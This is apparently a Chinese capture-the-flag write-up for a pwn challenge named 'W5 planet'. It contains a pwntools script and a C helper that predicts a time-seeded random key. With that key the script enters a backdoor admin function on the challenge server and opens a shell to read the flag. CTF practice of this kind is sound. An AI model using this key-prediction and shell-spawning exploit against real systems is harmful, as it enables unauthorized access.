

# W5 planet

## 文件分析

下载`planet`, NX on, PIE on, Canary on, RELRO partial  
ghidra分析为64位程序

## 逆向

有后门函数，虽然有随机数，但以时间为种子，直接模拟攻击；
命令限长，就用"$0"打开shell

官方wp有对链表的利用，不管了，能打通就是好exp

## EXPLOIT

```python
from pwn import *
def payload(delay:int):
    probe = process(['seedprobe2', str(delay)])
    key = probe.recvline(False)
    print(f'key to shell is: {key.decode()}')
    probe.close()

    sh = remote('node4.buuoj.cn', 25321)
    sh.sendlineafter(b':', b'secret_passwd_anti_bad_guys')
    sh.sendlineafter(b'>', b'Admin') # enter Admin func
    sh.sendlineafter(b'>', key)      # send calced key
    sh.interactive()
    #$0
    #cat flag

payload(5)
```

```c
// seedprobe2.c
#include <stdio.h>
#include <time.h>
#include <stdlib.h>
#define STRLEN 31

int main(int argc, char **argv) {
    if (argc == 1) {
        puts("no time input!");
        return 0;
    } 
    int delay = -1;
    delay = atoi(argv[1]);
    if (delay == -1) {
        puts("invalid time input");
        return 0;
    }
    time_t init = time(NULL) + delay;
    srand(init);
    for (int i = 0; i < 55; i++)
        rand();
    char ret[STRLEN];
    for (int i = 0; i < STRLEN - 1; i++) 
        ret[i] = "abcdefghijklmnopqrstuvwxyz"[rand() % 26];
    ret[STRLEN - 1] = '\0';
    puts(ret);
    return 0;
}
```

## 第一次一血！



Done.
